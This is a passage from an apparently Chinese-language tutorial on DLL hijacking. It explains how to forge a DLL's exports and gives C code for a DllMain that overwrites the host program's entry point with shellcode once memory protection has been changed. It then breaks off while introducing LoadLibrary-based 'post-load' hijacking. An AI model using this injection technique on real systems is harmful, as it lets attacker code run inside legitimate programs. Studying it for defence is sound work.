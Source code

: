 ![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20211018123711.png)

根据它输入表dll的导出函数，我们自动生成一份对应的导出函数，导出函数不需要任何功能，只要函数名称和它对应上即可。

之后在dllmain里面获取主程序的入口点，然后将shellcode写入入口点，之后主程序运行就会执行我们的shellcode了。

C代码如下

    
          1. int WINAPI DllMain(HINSTANCE hInstance, DWORD fdwReason, PVOID pvReserved)
    
      2. {
    
      3.         switch (fdwReason)
    
      4.         {
    
      5.         case DLL_PROCESS_ATTACH:
    
      6.             hello_func();
    
      7.             break;
    
      8.         case DLL_PROCESS_DETACH:
    
      9.             break; 
    
      10.         }
    
      11.         return TRUE;
    
      12. }
    
      13. void hello_func()｛
    
      14.     DWORD baseAddress = (DWORD)GetModuleHandleA(NULL);
    
      15.     PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)baseAddress;
    
      16.     PIMAGE_NT_HEADERS32 ntHeader = (PIMAGE_NT_HEADERS32)(baseAddress + dosHeader->e_lfanew);
    
      17.     DWORD entryPoint = (DWORD)baseAddress + ntHeader->OptionalHeader.AddressOfEntryPoint;
    
      18.     DWORD old;
    
      19.     VirtualProtect(entryPoint, size, 0x40, &old);
    
      20.     for(int i=0;i<size;i++){
    
      21.         *((PBYTE)entryPoint+i) = shellcode[i];
    
      22.     }
    
      23.     VirtualProtect(entryPoint, size, old, &old);
    
      24. ｝
    
    
    

### Post-Load Dll劫持

dll在主程序导入表没有，而是程序通过 `LoadLibrary`动态调用的，我称这类dll为 `post-load`类型(我自己发明的词语)。

当程序使用 `LoadLibrary`进行加载的时候，它的调用堆栈类似以下
